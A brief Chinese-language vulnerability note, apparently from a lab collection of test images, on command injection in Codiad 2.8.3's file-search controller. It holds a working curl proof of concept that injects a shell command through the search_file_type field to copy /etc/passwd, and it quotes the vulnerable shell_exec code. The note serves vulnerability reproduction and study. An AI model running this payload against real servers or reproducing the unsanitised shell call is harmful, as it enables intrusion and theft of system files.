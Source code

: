 ### 文件查找 - 命令注入漏洞

测试镜像

* src/codiad/2.8.3

影响版本

* 2.8.3

参考链接

* [Codiad在线IDE框架远程命令执行漏洞分析](http://www.freebuf.com/articles/web/141788.html)

Poc

```
# 请先修改 cookie
curl 'http://127.0.0.1/components/filemanager/controller.php?action=search&path=/tmp/demo/&type=0' -H 'Cookie: 40d1b2d83998fabacb726e5bc3d22129=vlbh200p9c5p3a2ni6e0d3ecb5; cecfeb9f0e60abb79e183c90660419a6=33qhp27nns3mcc4a8udiavird2' -d 'search_string=php&search_file_type=";cp /etc/passwd /tmp/hacked;"'; echo
```

关键代码

```
# 命令注入
$output = shell_exec('find -L ' . $this->path . ' -iregex  ".*' . $this->search_file_type  . '" -type f | xargs grep -i -I -n -R -H "' . $input . '"');
```

